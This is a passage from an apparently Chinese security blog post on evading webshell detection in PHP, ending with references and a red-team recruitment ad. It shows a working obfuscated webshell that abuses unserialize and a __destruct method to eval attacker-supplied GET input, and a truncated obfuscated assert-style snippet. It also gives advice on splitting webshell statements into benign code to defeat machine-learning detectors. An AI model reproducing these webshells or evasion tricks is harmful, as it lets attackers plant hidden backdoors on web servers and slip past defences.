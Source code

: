 2.php

```
<?php $a ='a1s1s1e1r11t';$d = $\_POST\['id'\];?>
```

#### 3 利用反序列化

```
<?php
class A{
var $test ="demo";
function \_\_destruct(){
@eval($this->test);
}
}
$test = $\_GET\['test'\];
$len = strlen($test)+1;
$pp ="O:1:\\"A\\":1:{s:4:\\"test\\";s:".$len.":\\"".$test.";\\";}"; 
$b='ubnbsbbberialize';
$c ='str\_replace';
$d = $c('b','', $b);
$test\_unser = $d($pp); 
?>
```

### 4 白加黑

最近几年出现了使用机器学习等技术检测 webshell 的趋势。对于这种检测方式，可以找一个正常的 php 代码，然后把 webshell 语句拆开，放进去。这样机器学习就很难识别了。

References
----------

[https://mp.weixin.qq.com/s/X2byhuN3TFc6Z3IUCiGafQ](https://mp.weixin.qq.com/s?__biz=MzI0MDI5MTQ3OQ==&mid=2247483991&idx=1&sn=7f5e52e8d8b7a00f7d2889d8a628ef10&scene=21#wechat_redirect)  
[https://mp.weixin.qq.com/s/EHDvRA3Lpykpu0BDS17ENQ](https://mp.weixin.qq.com/s?__biz=MzI0MDI5MTQ3OQ==&mid=2247483981&idx=1&sn=d92df5dcbe3fe6a6f07d5f24b754cb58&scene=21#wechat_redirect)  
[https://mp.weixin.qq.com/s/xdvHBWT2VuwYG1Obn7xLIw](https://mp.weixin.qq.com/s?__biz=MzI0MDI5MTQ3OQ==&mid=2247483698&idx=1&sn=53ca81fffd27fdd13f039781dce8c43d&scene=21#wechat_redirect)  
[https://mp.weixin.qq.com/s/sQVMlkUf\_Z59OqVaRz2rDQ](https://mp.weixin.qq.com/s?__biz=MzI0MDI5MTQ3OQ==&mid=2247483682&idx=1&sn=135d047b7864a8c1139150b782936f24&scene=21#wechat_redirect)

**关于我们**

![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvndnSMyQf6kMHCUBhVal3ssCiav8Kd0rm8FD0WLVjpRzLNBrDEv9u0SrUoSd6Hs0zgaic1Jt8WOfE6tg/640?wx_fmt=png)

**人才招聘**

**一、高级攻防研究员**

**工作地点：**

1\. 杭州 / 重庆 / 上海 / 北京；

**岗位职责：**  
1\. 前沿攻防技术研究；  
2\. 负责完成定向渗透测试任务；  
3\. 负责红队工具的研发。  
**任职要求：**  
1\. 三年以上相关工作经验，若满足以下所有条件，则可忽略此要求；  
2\. 熟练掌握 Cobalt Strike、Empire、Metasploit 等后渗透工具的使用；  
3\. 熟练掌握工作组 / 域环境下的各种渗透思路、手段；  
4\. 具有大型、复杂网络环境的渗透测试经验；  
5\. 具有独立的漏洞挖掘、研究能力；  
6\. 熟练至少一门开发语言，不局限于 C/C++、Java、PHP、Python 等；  
7\. 良好的沟通能力和团队协作能力。  
**加分项：**  
1\. 红队工具开发经验；  
2\. 有良好的技术笔记习惯。